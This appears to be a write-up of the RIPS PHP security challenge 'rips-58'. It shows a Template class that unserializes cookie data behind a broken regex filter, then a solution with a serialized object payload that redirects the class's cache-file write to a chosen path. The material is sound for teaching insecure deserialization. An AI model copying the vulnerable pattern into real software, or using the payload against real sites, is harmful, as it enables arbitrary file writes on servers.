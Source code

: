 ```yaml
---

title: rips-58
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1169997998924980224" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
           && !preg_match('/O:\d:\/', $data)) {
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);

{{< /code >}}

# Solution
{{< code language="php" highlight="" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);                   // 2) user input $data
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
           && !preg_match('/O:\d:\/', $data)) {           // 3) this can be bypassed with ['name' => 'f00', 'obj' => new Template(...)]
            return unserialize($data);                    // 4) user controlled data into unserialize
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);     // 1) user input from cookie


// example:
$x = 'a:1:{s:4:"name";s:3:"f00";}';
//$o = ['name' => 'f00', 'obj' => new Template($x)];
//echo serialize($o);
$payload = 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}';
//                                                                                                    ^
//                                                                                                    |
//                                                                                            change file name

var_dump(preg_match('/O:\d\/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
//                        ^
//                        |
// PHP Warning:  preg_match(): No ending delimiter '/' found in php shell code on line 1
// bool(false)

var_dump(preg_match('/O:\d/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
// int(1)

{{< /code >}}